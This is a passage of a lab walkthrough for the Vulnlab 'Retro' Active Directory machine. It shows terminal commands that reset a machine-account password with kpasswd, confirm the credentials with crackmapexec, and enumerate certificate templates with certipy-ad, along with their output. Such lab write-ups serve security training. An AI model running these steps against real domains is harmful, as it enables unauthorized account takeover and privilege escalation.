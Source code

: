 After resetting the machine and trying again, it worked.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro]
└─$ kpasswd BANKING$        
Password for BANKING$@RETRO.VL: 
Enter new password: 
Enter it again: 
Password changed.
```

We confirmed that the password was changed using `crackmapexec`.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro]
└─$ crackmapexec smb retro.vl -u BANKING$ -p password 
SMB         retro.vl        445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         retro.vl        445    DC               [+] retro.vl\BANKING$:password 
```

Saw a hint from a writeup to check AD CS, so we retrieved the command from the [AD-Attack-Mindmap](https://github.com/esidate/pentesting-active-directory) while reviewing the `valid credentials` obtained section.

<img src="attachments/76791fee8002b356bc295469f825bb33.png" />

*Doing the exact command as above failed :*
```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro/ADCS]
└─$ certipy-ad find -u BANKING$@RETRO.VL -p password -dc-ip 10.10.126.241
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[-] Got error: Failed to bind to LDAP. This is most likely because of an invalid username specified for logon
[-] Use -debug to print a stacktrace
.
.
Exception: Failed to bind to LDAP. This is most likely because of an invalid username specified for logon
```

*Corrected command with usernames inside quotes*

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro/ADCS]
└─$ certipy-ad find -u 'BANKING$'@RETRO.VL -p password -dc-ip 10.10.126.241    
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'retro-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'retro-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'retro-DC-CA' via RRP
[*] Got CA configuration for 'retro-DC-CA'
[*] Saved BloodHound data to '20241219001119_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20241219001119_Certipy.txt'
[*] Saved JSON output to '20241219001119_Certipy.json'
```